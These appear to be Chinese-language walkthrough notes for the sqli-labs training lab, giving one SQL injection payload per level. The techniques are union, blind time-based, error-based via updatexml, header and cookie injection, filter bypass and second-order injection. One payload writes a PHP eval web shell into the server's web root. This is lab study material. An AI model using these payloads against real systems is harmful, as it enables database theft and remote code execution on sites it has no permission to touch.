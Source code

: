 语句： id=(('$id')) 

>?id=0')) union select 1,2,"<?php eval($_POST[a]);?>" into outfile "D:/phpstudy_pro/WWW/sqli-labs/Less-7/test.php" -- +


## Less-9
不管怎么构造都是相同的结果，考虑尝试单引号进行闭合，然后延时注入

>?id=1' and 1=if(2>1,sleep(3),2)%23

## Less-12
uname=0") union select 1,2%23&passwd=1234

## Less-13
uname=admin') and substr((select user()),1,1)='r'%23

## Less-17
这里是一个更新密码的输入框，看源码一堆过滤

语句:
```
UPDATE users SET password = '$passwd' WHERE username='$row1'
```
admin and updatexml(1,concat(0x7e,(select user()),0x7e),1)#

## Less-18-20
UA, Referer，cookie注入
uname=1'or(updatexml(1,concat(0x26,database(),0x26),1))#

# 21-37 -- bypass

## Less-21
正常登录cookie是base64加密

## Less-23
`过滤了注释符，闭合后面的单引号`
?id=0' union select 1,2,(select database())'

## Less-24
三个界面，注册 登录，更改密码的界面，很容易想到二次注入

看后面的代码：
在注册登录时都对输入的参数进行了过滤，在更改密码的时候没有进行过滤直接拼接到语句中

```php
$username= $_SESSION["username"];
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
注册一个`admin'#`
